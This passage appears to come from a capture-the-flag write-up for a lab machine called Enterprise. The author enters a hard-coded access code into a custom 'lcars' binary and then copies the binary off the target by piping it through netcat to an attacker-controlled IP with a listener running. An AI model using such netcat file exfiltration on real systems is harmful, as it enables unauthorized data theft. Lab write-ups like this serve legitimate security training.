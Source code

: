 Perfect, the next call is a `strcmp` between my input and “picarda1”. Entering that works, and leads to a menu:

```

www-data@enterprise:/$ lcars

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

Enter Bridge Access Code: 
picarda1

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

LCARS Bridge Secondary Controls -- Main Menu: 
1. Navigation
2. Ships Log
3. Science
4. Security
5. StellaCartography
6. Engineering
7. Exit
Waiting for input:

```

### Static Analysis

#### Exfil

At this point I can play with each of these functions, but I’m more interested in looking at it in Ghidra.

I’ll grab a copy of this file locally with `nc`, starting my listener on my box, and then running:

```

www-data@enterprise:/$ cat /bin/lcars | nc 10.10.14.8 443

```

At my VM:

```

oxdf@parrot$ nc -lnvp 443 > lcars
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.61] 55874
^C

```
